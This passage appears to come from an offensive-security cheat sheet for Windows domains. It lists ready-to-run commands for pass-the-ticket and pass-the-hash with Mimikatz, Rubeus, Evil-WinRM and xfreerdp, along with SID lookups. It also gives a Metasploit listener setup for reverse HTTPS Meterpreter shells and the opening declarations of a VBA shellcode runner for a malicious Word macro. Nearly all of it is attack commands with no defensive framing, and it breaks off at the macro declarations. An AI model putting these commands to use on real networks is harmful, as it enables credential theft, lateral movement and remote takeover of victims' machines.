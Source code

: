 ### Password to Hash
```powershell
rubeus.exe hash /domain:red.com /user:rbcd$ /password:123
```

### Use of ticket

- Mimikatz
```powershell
kerberos::ptt ticket.kirbi
```
- Rubeus:
```powershell
rubeus.exe /ptt /ticket: [doIF…]
```

### Use of hash

- Mimikatz
```powershell
sekurlsa::pth /user:admin /domain:blue /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
- Evil-WinRM
```bash
evil-winrm -i 192.168.10.10 -u alice -H [hash]
```
- Xfreerdp
```bash
xfreerdp /v:192.168.10.10 /u:alice /pth:[hash] /d:red.com /dynamic-resolution
```

### SID and Name

- SID to Name
```powershell
convertfrom-sid S-1-5-21-3776646582-2086779273-4091361643-1601
```
- Name to SID:
```powershell
Get-DomainSID -Domain child.red.com
```

## C2 Preparations
### Metasploit
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.x.y; set LPORT 443; set ExitOnSession false; run -zj"
```

## Initial Compromise
### Word Macro
- VBA Shellcode Runner (x86)
```vba
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
```